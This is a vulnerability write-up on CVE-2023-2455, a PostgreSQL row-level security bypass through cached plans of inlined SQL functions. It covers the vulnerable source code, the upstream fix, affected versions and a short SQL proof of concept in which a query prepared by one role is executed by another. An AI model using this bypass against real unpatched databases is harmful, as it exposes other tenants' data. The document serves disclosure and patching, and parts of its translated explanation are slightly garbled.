


# CVE-2023-2455 CWE-20 PostgreSQL Access Control Circumvention

## Vulnerability Background
- **PostgreSQL**:P ostgreSQL is an open-source, powerful object-relational database management system widely used in web development, data analysis, and enterprise-level applications. It supports ACID transactions, complex queries, full-text searches, and Multi-Version Concurrency Control (MVCC), ensuring high concurrency and data consistency. PostgreSQL offers extensibility, allowing users to customize data types, functions, and indexes, and also supports JSON and geospatial data.
- **SQL Language Collection Return Function (SRF):** A function defined in SQL statements whose return value is a result set (multiple rows, multiple columns), not just a single line or a scalar value. When called, it often appears in `FROM` clauses, like a virtual table.
- **Inlining:** In PostgreSQL, when planning queries, the optimizer directly expands a simple SQL function (especially one with `STABLE` or `IMMUTABLE`) into the query tree or expression corresponding to its function body, thereby avoiding additional function call overhead. This mechanism improves performance, but if a table with row-level safety (RLS) is accessed in the function body, the security dependency must be passed correctly; otherwise, policy application errors may occur.
- **Row-Level Security (RLS):* A fine-grained access control mechanism provided by PostgreSQL allows database administrators to define row-based access policies for tables, so that different users can only see or operate rows that meet their permission criteria when querying or modifying the same table. By defining rules through `CREATE POLICY` and enabling RLS, the database automatically applies filtering conditions to access relevant tables during the query rewrite phase, thereby enforcing multi-tenant isolation or sensitive data protection at the database level.
- **CWE-20 (Improper Input Validation):** Software fails to properly check or verify input from users, external systems, or untrusted sources, which may lead to logical errors, security check bypasses, or injection attacks during processing. These vulnerabilities are common in unverified length, format, scope, or type of input. Attackers can exploit maliciously constructed data to trigger crashes, bypass access controls, execute arbitrary code, or steal sensitive information. Therefore, almost all security development standards make "strict input validation" one of their primary safeguards.

## Vulnerability Mechanism
When the SQL collection return function (SRF) is inlined by the optimizer, the table it accesses is bound to a row-level security (RLS) policy during the **planning phase**, but the plan is not correctly marked as dependent on the current role, so the query plan generated in the `PREPARE` phase is reused across different roles. If planning is prepared under high-privilege or access roles, subsequent low-privilege roles will still apply the RLS policy from the preparation time during execution, causing unauthorized data reading or modification.

## Vulnerability Location
Analysis of PostgreSQL 12.2 source code:

In the src/backend/optimizer/util/clauses.c file, line 4879** `inline_set_returning_function` function is responsible for **inlining** the FROM clause into a `Query` tree when the **SQL language SRF** appears and the inline condition is met, essentially `SELECT * FROM rls_t` This type of function body is "expanded" into a query call), allowing the outer query to directly access the base table.

When line **5152** returns the inlined query tree, when the inlined `querytree` **actually carries RLS dependencies (sensitive to execution roles)**, the function **does not inform** this fact to the global planning state `root->glob`. This means that plans generated during the **PREPARE** phase of outer queries are not marked as "role-sensitive"**, and planned caches/generic plans are later directly reused by different roles (such as Bob)—which is exactly why **Bob reuses plans prepared by Alice in PoCs and oversteps them.

```c
// clauses.c file, line 4879
Query *inline_set_returning_function(PlannerInfo *root, RangeTblEntry *rte)
{
	// ...
    // 5057 lines, parsing the function body and obtaining a query (querytree)
	raw_parsetree_list = pg_parse_query(src);
	if (list_length(raw_parsetree_list) != 1)
		goto fail;

    // Perform semantic analysis and rewrite
	querytree_list = pg_analyze_and_rewrite_params(linitial(raw_parsetree_list),
												   src,
												   (ParserSetupHook) sql_fn_parser_setup,
												   pinfo, NULL);
	if (list_length(querytree_list) != 1)
		goto fail;
	querytree = linitial(querytree_list);

	// 5121 lines, and the actual call parameters are used to replace the formal parameters in the function body with the query tree returned inline
	querytree = substitute_actual_srf_parameters(querytree,
												 funcform->pronargs,
												 fexpr->args);

    // Switch the current memory context back to the outer layer to prepare to copy the generated querytree
	MemoryContextSwitchTo(oldcxt);

    // Copy the querytree into the caller's context so it remains usable after the function returns
	querytree = copyObject(querytree);

	// Copy invalItems generated in the temporary context and merge them into the global planning information
	root->glob->invalItems = list_concat(saveInvalItems,
										 copyObject(root->glob->invalItems));

    // Clean up temporary memory context, restore the error context stack, and release pg_proc cache tuples
	MemoryContextDelete(mycxt);
	error_context_stack = sqlerrcontext.previous;
	ReleaseSysCache(func_tuple);

	record_plan_function_dependency(root, func_oid);

    // 5152 lines, returning the inline query tree
    // ⚠️ Vulnerability: If the querytree contains RLS dependencies, root->glob->dependsOnRole = true is not set
    // This causes the generated plan to be mistakenly judged as unrelated to the character, and subsequent PREPARE/EXECUTE will reuse the plan across roles,
	return querytree;

    // ...
}
```

## Remediation

Upgrade to PostgreSQL 15.3, 14.8, 13.11, 12.15, 11.20, or a later release on the corresponding branch.
In the `inline_set_returning_function` function of the `src/backend/optimizer/util/clauses.c` file, after successfully inlining and copying the `querytree`, before `return`, **check for RLS signs and mark the plan as role-sensitive**. When the incoming query tree `querytree` contains RLS(`hasRowSecurity`), **explicitly** `root->glob->dependsOnRole = true` is set so that the plan cache knows the plan is **sensitive to the execution role** and will not be mistakenly reused when roles change.

```c
	/*
	 * We must also notice if the inserted query adds a dependency on the
	 * calling role due to RLS quals.
	 */
	if (querytree->hasRowSecurity)
		root->glob->dependsOnRole = true;
```

## Affected Versions
**Affected version:** PostgreSQL:

-  11.1 to 11.19
-  12.0 to 12.14
-  13.0 to 13.10
-  14.0 to 14.7
-  15.0 to 15.2

## Environment Setup
Start the Docker environment, PostgreSQL version 12.2, administrator postgres, password postgres, database test already exists.

```txt
NIST:NVD   Base Score:5.4 MEDIUM   Vector:CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:N
ADP:CISA-ADP   Base Score:5.4 MEDIUM   Vector:CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:N
```

```txt
cpe:2.3:a:postgresql:postgresql:12.2:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
Using Postgres user identity to connect to the PostgreSQL database test in the container and run the PoC file, you can see that after Bob executes the plan, it is not rejected by the policy and can still see data accessed without permission.

```bash
docker exec -it postgres-12.2 psql -U postgres -d test -f CVE-2023-2455-PoC.sql
```



## PoC Analysis

```sql
-- Create and populate tables, enable row-level safety (RLS), and grant SELECT object permissions to both roles
create table rls_t (c text);
insert into rls_t values ('invisible to bob');
alter table rls_t enable row level security;
grant select on rls_t to regress_rls_alice, regress_rls_bob;

-- Define two mutually exclusive RLS strategies (Alice is always visible, Bob is always invisible)
create policy p1 on rls_t for select to regress_rls_alice using (true);
create policy p2 on rls_t for select to regress_rls_bob using (false);

-- Create a collection return function (SRF), which returns multi-row results from the rls_t table
create function rls_f () returns setof rls_t
  -- Defined using SQL statements
  stable language sql
  -- This means calling rls_f() is equivalent to directly SELECT * FROM rls_t
  as $$ select * from rls_t $$;

-- Query under Alice under PREPARE
SET ROLE regress_rls_alice;
prepare q as select current_user, * from rls_f();

-- Execute the plan using Bob's identity
set role regress_rls_bob;
execute q;
```

Because `rls_f` function is simple enough, the planner **inlines** it, essentially expanding the function into a query that directly accesses `rls_t`. This makes **RLS policy injection bound to functions**, making future plans for reuse prone to problems.

Later, PostgreSQL performs **parsing → rewriting → planning** on the `prepare q as select current_user, * from rls_f();`, and caches the result as a **query plan**. Subsequent `EXECUTE q` will not be replanned but will directly execute the cache plan.

Because `rls_f()` is inlined, equivalent to `select current_user, * from rls_t;`, PostgreSQL stipulates that superusers accessing tables are not restricted by row-level security policies. Therefore, when PREPARE, the plan is prepared under Alice's identity, obtained **according to Alice's strategy**, without limiting Bob. This plan is cached and stored in `q`. Even if the execution switches to regular users (such as `regress_rls_bob`), it will only directly reuse the plan **No RLS Limit Bob**. After executing the plan, Bob could also see the rows in the table, bypassing the **row-level security policy** that should have been effective.

## References
[NVD - CVE-2023-2455](https://nvd.nist.gov/vuln/detail/CVE-2023-2455)

[Handle RLS dependencies in inlined set-returning functions properly. · postgres/postgres@ca73753](https://github.com/postgres/postgres/commit/ca73753b090c33bc69ce299b4d7fff891a77b8ad#diff-fd57ecde9f67cd174c33dda1de40859ad9ebdc520c1af7a987e867e785661fee)
